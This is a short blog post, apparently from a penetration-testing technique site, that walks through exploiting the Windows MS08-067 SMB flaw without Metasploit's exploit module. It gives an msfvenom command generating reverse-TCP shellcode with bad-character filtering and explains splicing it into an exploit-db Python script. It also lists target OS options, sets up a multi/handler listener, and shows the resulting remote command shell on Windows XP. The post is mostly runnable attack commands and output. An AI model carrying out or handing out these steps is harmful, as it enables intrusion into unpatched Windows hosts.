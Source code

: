 ```yaml
---
title:  "MS08-067 - DIY Script"
date:   2021-08-05 21:15:00 +0100
categories: [techniques]
tags: [windows, scripts, ms08-067]
comments: true
---
```


MS08-067 - Without Mimikatz Script
==================================

Exploiting MS08-067 without using metasploit.   

This has been quite tricky to get working, but in summary from my experience, you cant use 'nc' as a listener for this because the payload needs to be STAGED and 'nc' will only catch STAGELESS payloads.


First download the Python Script from here - [MS08_067](https://www.exploit-db.com/raw/40279 'MS08-067')

Next run msfvenom with the arguments to suit your needs:

`msfvenom -p windows/shell/reverse_tcp LHOST=x.x.x.x LPORT=8080  EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python -v shellcode --arch x86 --platform windows`

Next, replace the shell code in the python script with the shell code you have just created with msfvenom.

Note - LEAVE THE FIRST THREE LINES (NOPS) IN THE PYTHON SCRIPT.
Lines, 47, 48, 49


`shellcode="\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"`
`shellcode="\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"`
`shellcode+="\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"`   
`---ENTER SHELLCODE HERE ---`

Next make a note of the Operating System & Service Pack that your are trying to execute. 
There are 7 options to choose from:

1.   Windows XP SP0/1 Universal   
2.   Windows 2000 Universal   
3.   Windows 2003 SP0 Universal   
4.   Windows 2003 SP1 English   
5.   Windows XP SP3 French (NX)   
6.   Windows XP SP3 English (NX)   
7.   Windows XP SP3 English (AlwaysOn NX)   

Next -  Start Metasploit and setup a handler   
    use exploit/multi/handler   
    set LHOST X.X.X.X   
    set LPORT XXXX   
    set payload windows/shell/reverse_tcp   
    exploit -j   

Next execute the python script using the correct number that relates to the OS and Service Pack liek so.


    python 40279.py 1

You should see the reverse shell returned.

    msf exploit(multi/handler) > exploit 

    [*] Started reverse TCP handler on X.X.X.X:8080 
    [*] Encoded stage with x86/shikata_ga_nai
    [*] Sending encoded stage (267 bytes) to A.A.A.A
    [*] Command shell session 10 opened (X.X.X.X:8080 -> A.A.A.A:1219) at 2017-02-00 15:55:22 +0000

    Microsoft Windows XP [Version 5.1.2600]
    (C) Copyright 1985-2001 Microsoft Corp.

    C:\WINDOWS\system32>


![img-description](/images/ms08-067.png)
_For Reference this is what the traffic looks like for a successful reverse TCP connection for this particular exploit._



